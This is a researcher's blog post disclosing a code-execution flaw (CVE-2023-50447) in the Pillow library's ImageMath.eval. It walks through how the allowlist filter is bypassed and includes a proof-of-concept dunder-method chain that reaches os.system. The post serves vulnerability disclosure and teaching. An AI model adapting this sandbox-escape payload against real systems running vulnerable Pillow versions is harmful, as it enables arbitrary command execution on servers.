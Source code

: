 ```yaml
---
layout: post
title: Arbitrary Code Execution in Pillow
subtitle: CVE-2023-50447
tags: [CVE]
readtime: true
---
```


During Checkmarx’s Research Group routine activities, we often conduct security assessments on open-source technologies to refine both our tools and our skillset. During one of these activities, I identified a **Critical** vulnerability in [Pillow](https://github.com/python-pillow/Pillow). It is present in the `PIL.ImageMath.eval` function, in versions up to and including 10.1.0. This vulnerability was latter assigned [CVE-2023-50447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-50447).

{: .box-error}
**CVSS v3.1:** [9.0](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1)

Serving as a successor to the Python Imaging Library (PIL), Pillow is a Python imaging library that provides a comprehensive set of tools for opening, manipulating, and saving various image file formats. It is widely used in web development, data analysis, computer vision, and other domains, providing a user-friendly interface. With support for numerous image formats and a rich set of features, Pillow is a go-to solution for developers and designers working with images in Python applications.

The `ImageMath` module provides a single `eval` function, which takes an expression string and one or more images. It's basically a wrapper around Python's built-in `eval` function, but with a few more special operations for working with images. You can read more about this function and how it works in the Pillow [documentation](https://pillow.readthedocs.io/en/stable/reference/ImageMath.html#PIL.ImageMath.eval). Here is a usage example from the documentation, which includes two of the built-in functions — `convert` and `min`:

```python
from PIL import Image, ImageMath

with Image.open('image1.jpg') as im1:
    with Image.open('image2.jpg') as im2:
        out = ImageMath.eval("convert(min(a, b), 'L')", a=im1, b=im2)
        out.save('result.png')
```

It's not the first time that a vulnerability has been discovered that leads to (spoiler alert!) arbitrary code execution in this function. Versions prior to 9.0.1 were vulnerable to [CVE-2022-22817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22817). In those versions, `PIL.ImageMath.eval` allowed the evaluation of arbitrary expressions (i.e. there was no validation whatsoever of the expression provided), and so it was trivial to get arbitrary code execution simply by controlling the expression passed to the function — e.g. `ImageMath.eval('exec(...)')`.

To prevent this vulnerability, a [commit](https://github.com/python-pillow/Pillow/commit/8531b01d6cdf0b70f256f93092caa2a5d91afc11) was made with the aim of restricting the builtins available to `PIL.ImageMath.eval()`. Let's review this snippet of Pillow's code with the filter responsible for ensuring that we're not evaluating arbitrary objects:

```python
code = compile(expression, "<string>", "eval")
...
for name in code.co_names:
    if name not in args and name != "abs":
        msg = f"'{name}' not allowed"
        raise ValueError(msg)
```

* `expression` refers to the first parameter of `PIL.ImageMath.eval`, i.e. the string containing a Python-style expression;
* `args` contains values to add to the evaluation context, which includes some built-in functions as well as the arguments passed to the second parameter of `PIL.ImageMath.eval` so that they can be referenced inside;
* `compile` is a Python built-in function ([docs](https://docs.python.org/3/library/functions.html#compile)) that compiles an expression into a code or AST object, so that it can later be executed by `exec` or `eval`;
* `co_names` is an attribute of a code object that returns a tuple containing the names (e.g. names of used variables) in the expression — to be more precise, it's in the bytecode object.

So what's happening here is that it's checking the names in the expression against an allowlist  (i.e. `args`). On the surface, it seems like a good solution, but like everything in application security, the devil is in the details...

Take a look at the code snippet one more time — what would happen if we could control this allowlist? We'd be able to use whatever "`co_names`" we wanted and thus achieve arbitrary code execution! Unfortunately, it's not that simple... We can't just add an `exec` to the `PIL.ImageMath.eval` context and use the payload we saw earlier in CVE-2022-22817, because that `exec` won't be the Python function, but an `Image` passed in as an argument:

```python
ImageMath.eval("exec(...)", exec=Image.open(...))
```

Hmm... Now what? How can we bypass this? We need to get permission to use the "`co_names`" we want to and at the same time we need those names to be the functions we actually want to call, not just the object passed as an argument. It was at this point that I remembered the challenges of some CTFs I played in the past related to Python jail/sandbox escapes — to bypass this we can use Python's *dunder* (or magic) methods! Allow me to explain...

Although we can't call arbitrary functions in the context of `eval`, by controlling this allowlist, we can call arbitrary methods inside any present object. This is because the name of a method has a different context from the name of a variable, for example, if we take the code above it's easy to see that the `exec` in `exec('whoami')` is different from `Palpatine.exec('Order 66')`. Our `exec` in the latter case won't be "replaced" by the object passed to the `PIL.ImageMath.eval` context since it is the `exec` attribute corresponding to the `Palpatine` object and not a standalone object.

In short, we now have the ability to call arbitrary attributes. This, along with the existence of *dunder* methods, can be used to achieve arbitrary code execution. [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#discover-arbitrary-execution) has some payloads that we can use for this.

That said, exploiting this vulnerability has some obstacles in real scenarios which result in high attack complexity and reduced overall risk: it is necessary for the images passed to the environment to be able to have names like "\_\_class\_\_". Although this is a valid file name, applications need to be able to save images without changing this name. For instance, things like adding the file extension (e.g. jpg) to the filename would already prevent this vulnerability from being exploited.

It's finally time to write a Proof Of Concept (POC). For this POC we need 5 images with the names: "\_\_class\_\_", "\_\_bases\_\_", "\_\_subclasses\_\_", "load_module", and "system". Note that these are valid file names on any OS.

```python
from PIL import Image, ImageMath

image1 = Image.open('__class__')
image2 = Image.open('__bases__')
image3 = Image.open('__subclasses__')
image4 = Image.open('load_module')
image5 = Image.open('system')

expression = "().__class__.__bases__[0].__subclasses__()[104].load_module('os').system('whoami')"

environment = {
    image1.filename: image1,
    image2.filename: image2,
    image3.filename: image3,
    image4.filename: image4,
    image5.filename: image5
}

ImageMath.eval(expression, **environment)
```

We are considering that an attacker can control both the `expressions` and the names of the images passed to the `environment`. In this snippet, the images supplied to the `PIL.ImageMath.eval` context will be accessible within the expression via their filenames. This allows us to use these filenames to call attributes with the same name. In a real application, this could happen if there was, for example, a feature that allowed us to upload images and another feature that let us evaluate expressions containing our images, with their respective names, through `PIL.ImageMath.eval` - this would make a good web CTF challenge, hmm... Having managed to call arbitrary attributes, all that remains is to find a chain of *dunders* that will let us execute code. For this we use the chain described in `expression`. That's it!

I reported this vulnerability to the Pillow maintainers and it was fixed in version 10.2.0, as described in the [Release Notes](https://pillow.readthedocs.io/en/stable/releasenotes/10.2.0.html#imagemath-eval-restricted-environment-keys). Also, I would like to take this opportunity  to thank them for their efficient communication and professionalism.

[comment]: # TODO : Conclusion

Thanks for reading, I hope it was interesting! 🙂
